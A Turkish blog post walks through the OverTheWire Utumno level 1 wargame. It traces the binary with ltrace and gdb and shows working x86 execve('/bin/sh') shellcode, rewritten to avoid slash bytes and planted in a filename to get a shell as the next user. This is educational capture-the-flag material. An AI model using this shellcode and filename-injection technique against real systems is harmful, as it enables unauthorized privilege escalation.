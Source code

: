 ```yaml
---
layout: post
title: "Overthewire - Utumno1 Çözümü"
subtitle: "Shellcode mevzuları"
date: 2019-08-20 19:20:13 +0300
background: '/img/posts/bg.png'
---
```


# Overthewire Çözümleri - Utumno1

## İpucu
- Shellcode kurnazlıkları

## Çözüm

Programı çalıştırdığımızda hiçbir çıktı vermiyor. **ltrace** ile çalıştırıp sonuca bakalım.

```
__libc_start_main(0x80484a5, 1, 0xffffd674, 0x8048530 <unfinished ...>
exit(1 <no return ...>
+++ exited (status 1) +++
```

Bir de arguman vererek deneyelim.

```sh
__libc_start_main(0x80484a5, 2, 0xffffd674, 0x8048530 <unfinished ...>
opendir("asd")                                           = 0
exit(1 <no return ...>
+++ exited (status 1) +++
```

Gördüğünüz üzere "asd" dosyasını açmaya çalıştı. Hemen kendimize bir dosya oluşturalım ve orada programı denemeye devam edelim.

```sh
cd `mktemp -d`
ltrace /utumno/utumno1 /tmp/tmp.OIbeV24uHn
```

Çıktı:

```sh
__libc_start_main(0x80484a5, 2, 0xffffd664, 0x8048530 <unfinished ...>
opendir("/tmp/tmp.OIbeV24uHn")                           = 0x804a008
readdir(0x804a008)                                       = 0x804a024
strncmp("sh_", ".", 3)                                   = 69
readdir(0x804a008)                                       = 0x804a034
strncmp("sh_", "..", 3)                                  = 69
readdir(0x804a008)                                       = 0
+++ exited (status 0) +++
```

Gördüğünüz üzere program "sh_" adında bir dosya arıyor. Oluşturalım.

```sh
touch sh_
ltrace /utumno/utumno1 /tmp/tmp.OIbeV24uHn
```

Çıktı:

```sh
...
strncmp("sh_", "sh_", 3)                                 = 0
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Segmentation fault aldık. Artık **gdb**'ye geçmenin zamanı geldi.

**main** fonksiyonunu disassemble ederek analize başlayalım.

```sh
disas main
```

Çıktı:

```asm
...
   0x080484f9 <+84>:	mov    eax,DWORD PTR [ebp-0x8]
   0x080484fc <+87>:	add    eax,0xb
   0x080484ff <+90>:	add    eax,0x3
   0x08048502 <+93>:	push   eax
   0x08048503 <+94>:	call   0x804848b <run>
...
```

Run fonksiyonuna bakalım.

```asm
   0x0804848b <+0>:	push   ebp
   0x0804848c <+1>:	mov    ebp,esp
   0x0804848e <+3>:	sub    esp,0x4
   0x08048491 <+6>:	lea    eax,[ebp-0x4]
   0x08048494 <+9>:	add    eax,0x8
   0x08048497 <+12>:	mov    DWORD PTR [ebp-0x4],eax
   0x0804849a <+15>:	mov    eax,DWORD PTR [ebp-0x4]
   0x0804849d <+18>:	mov    edx,DWORD PTR [ebp+0x8]
   0x080484a0 <+21>:	mov    DWORD PTR [eax],edx
   0x080484a2 <+23>:	nop
   0x080484a3 <+24>:	leave  
   0x080484a4 <+25>:	ret 
```

**run** fonksiyonunda dikkatimi çeken ilk şey register'ların ve stack'in değerlerini değiştirmek dışında hiçbir şey yapılmıyor. Yani program stack'i **ret** çalıştığında return adresinden farklı bir yere dönecek şekilde ayarlıyor olabilir.

Neler olduğunu anlamak için **0x080484fc** ve **0x080484a3** adreslerine 
breakpoint koyup çalıştıralım.

```
break *0x080484fc
break *0x080484a3
r `pwd`
```

İlk breakpoint'ten **run** fonksiyonuna kadar **eax**'in değerlerine bakalım.

```
(gdb) i r eax
eax            0x804a054	134520916
(gdb) x/s $eax
0x804a054:	"\225"
(gdb) ni
0x080484ff	49	in utumno1.c
(gdb) x/s $eax
0x804a05f:	"sh_"
(gdb) ni
0x08048502	49	in utumno1.c
(gdb) x/s $eax
0x804a062:	""
(gdb) 
```

Görüldüğü üzere öncelikle "sh_"'ın, sonrasında da "sh_"'ın 3 karakter sağının adresi **eax**'e atılıyor. Artık **run** fonksiyonuna verilen parametreyi bildiğimize göre devam edelim.

```
(gdb) x/8wx $esp
0xffffd590:	0xffffd598	0xffffd5a8	0x0804a062	0x0804a062
0xffffd5a0:	0x0804a054	0x0804a008	0x00000000	0xf7e2a286
(gdb) ni
0x080484a4	27	in utumno1.c
(gdb) ni
0x0804a062 in ?? ()
```

Aynen tahmin ettiğimiz gibi, program çağrıldığı adrese dönmek yerine
**0x0804a062** adresine dönüyor. Hatırlarsanız ilk breakpoint'te **eax** in değeri **0x804a054** idi. Sonrasında program bu değer üzerine **0xb** ve **0x3** ekliyordu. 

**0x804a054** + **0xb** + **0x3** = **0x804a062**

Demek ki program öncelikle ismi **sh_** ile başlayan bir dosya arıyor, sonra da bu dosyanın adını 3. karakterden itibaren çalıştırıyor. 

O zaman biz de bu dosyanın ismine 3. karakterden itibaren **shellcode** koyup **/bin/sh** ı çalıştırabiliriz.

Çok beğenerek okuduğum "Hacking the art of exploitation" kitabından alıntılayarak shellcode'umuzu anlatacağım.

```
BITS 32

xor eax, eax     ; eax'i sıfır yap
push eax         ; stack'e stringi sonlandırmak için \0 at
push 0x68732f2f  ; stack'e "//sh" at
push 0x6e69622f  ; stack'e "/bin" at
mov ebx, esp     ; esp'den "/bin//sh" adresini alıp ebp'e koy
push eax         ; stack'e tekrar 0 at
mov edx, esp     ; envp değişkeni için boş bir array veriyoruz
push ebx         ; string adresini stack'e at
mov ecx, esp     ; argv arrayini ecx'e taşıyoruz
mov al, 11       ; syscall 11
int 0x80
```

Fakat yukarıda gördüğümüz kodu derleyip dosya oluşturmaya çalıştığımızda şu hatayı alıyoruz:

```sh
nasm code
touch sh_`cat nasm.out`
```

Çıktı:

```
touch: cannot touch 'sh_1'$'\300''Ph//shh/bin'$'\211\343''P'$'\211\342''S'$'\211\341\260\v''̀': No such file or directory
```

Çıktıda görebiliriz ki "/" karakteri var ve bunun bir dosya ismi değil de dosya yolu olduğunu zannettiğinden sistem dosya bulunamadı hatası veriliyor. Linux sistemlerinde dosya adı "/" içeremiyor.

Bunu çok basit bir yöntemle atlatabiliriz. Düşünürsek derlenmiş kodumuzun "/" karakterini barındırmasının sebebi **push 0x68732f2f** ve **push 0x6e69622f** satırları. Biz **2f**'i şu şekilde yazıyla belirtmeden de stack'e koyabiliriz.

```
mov eax, 0x57621e1e
add eax, 0x11111111
push eax
```

Yaptığımız şey **0x68732f2f**'nın **0x11111111** eksiğini **eax**'e atıp sonrasında da **eax**'in değerini **0x11111111** arttırmak, sonra da onu stack'e atmak. Böylece aynı değeri elde etmiş oluyoruz.

Kodun tamamı:

```asm
BITS 32

xor eax, eax
push eax
mov eax, 0x57621e1e
add eax, 0x11111111
push eax
mov eax, 0x5d58511e
add eax, 0x11111111
push eax
xor eax, eax   ; eax'i tekrardan sıfırladık
mov ebx, esp
push eax
mov edx, esp
push ebx
mov ecx, esp
mov al, 11
int 0x80
```

```sh
nasm code
touch sh_`cat nasm.out`
/utumno/utumno1 /tmp/tmp.OIbeV24uHn
```

Sonuç:

```sh
$ whoami
utumno2
```

Burada da shellcode yazmayı biliyor olmanın önemini gördük. Maalesef düz bir mantıkla yazılan assembly kodları çoğu zaman null karakter dediğimiz **00** karakterini içerdiğinden shellcode yazmak ayrı bir özen gerektiriyor.

## Kaynaklar

Kitap: **Hacking- The Art of Exploitation**